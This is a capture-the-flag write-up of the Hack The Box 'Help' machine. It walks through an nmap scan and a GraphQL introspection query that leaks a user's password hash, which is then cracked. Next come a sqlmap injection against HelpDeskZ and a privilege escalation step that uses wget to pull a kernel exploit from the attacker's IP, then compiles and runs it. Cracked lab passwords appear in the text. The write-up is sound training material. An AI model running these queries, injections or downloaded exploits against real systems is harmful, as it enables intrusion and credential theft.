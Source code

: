 ```yaml
---
title: "Help - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Help
![](https://kar0nx.github.io/assets/images/writeup/2f6225d90a3caf56699c3d93e8779d6b.png)
## Reconnaissance

IP: 10.10.10.121
## NMAP

```
nmap -T4 -p- -A 10.10.10.121
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-05 07:52 UTC
Nmap scan report for help.htb (10.10.10.121)
Host is up (0.031s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   29.94 ms 10.10.14.1
2   30.39 ms help.htb (10.10.10.121)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.48 seconds
```

add to /etc/hosts help.htb

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905095322.png)

ffuf found /support and /javascript (no permission to view)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905095515.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905095426.png)

In README.md we can spot version 1.0.2

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905102054.png)

found 2 file upload exploit 1 didn't work for me and in second we must be authenticated
https://www.exploit-db.com/exploits/41200
So let's skip it for now and search other vectors.

## port 3000

on port 3000 we have information 

```
Hi Shiv, To get access please find the credentials with given query
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905095707.png)

Getting hint that directory is graphql

```
http://10.10.10.121:3000/graphql
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905112206.png)

Searching for query missing in GET request of graphql i found this post
https://x.com/coffeetocode/status/1047598473871163393

```
/graphql?query={__schema%20{%0atypes%20{%0aname%0akind%0adescription%0afields%20{%0aname%0a}%0a}%0a}%0a}
```

pasting this in we got a lot of date

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905112736.png)

we can easyli spot User query with fileds username and password
So we can navigate to this field with query parameter in url

```
http://10.10.10.121:3000/graphql?query={user%20{username,password}%20}
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905113245.png)

```
helpme@helpme.com
5d3c93182bb20f07b994a7f617e99cff
```

password is encoded, used crackstation to decode and I got password 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905113355.png)

godhelpmeplz

now we can login to `help.htb/support`

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905130516.png)

https://www.exploit-db.com/exploits/41200
Exploit doesn't works so let's try to do it manual

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905132009.png)

as poc in exploit says when we attempt do download file from ticket it have sqlinjection:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905133037.png)

Save request and run sqlmap

```
sqlmap -r request --level 5 --risk 3 -p param[] 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905133206.png)

and we got user `support@mysite.com` d318f44739dced66793b1a603028133a76ae680e (Welcome1) 

## Privilege Escalation

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905133644.png)

4.4.0-116-generic
https://www.exploit-db.com/exploits/44298

now get exploit on the box compile and run

```
wget http://10.10.14.8/44298.c
gcc 44298.c -o exploit
./exploit
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905134113.png)
